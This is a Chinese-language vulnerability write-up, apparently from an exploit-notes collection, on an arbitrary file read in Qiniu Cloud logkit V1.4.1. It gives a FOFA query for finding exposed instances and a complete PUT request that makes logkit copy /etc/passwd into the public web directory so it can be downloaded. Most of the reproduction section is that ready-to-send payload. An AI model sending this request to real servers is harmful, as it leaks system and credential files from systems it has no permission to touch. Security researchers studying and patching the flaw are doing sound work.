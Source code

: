 # 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

```
七牛云 logkit V1.4.1
```

## FOFA

```
title="七牛Logkit配置文件助手"
```

## 漏洞复现

主页面

![image-20220628115711831](./images/202206281157893.png)

发送请求包配置读取文件

```
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![image-20220628115730198](./images/202206281157267.png)

![image-20220628115736774](./images/202206281157819.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![image-20220628115747872](./images/202206281157946.png)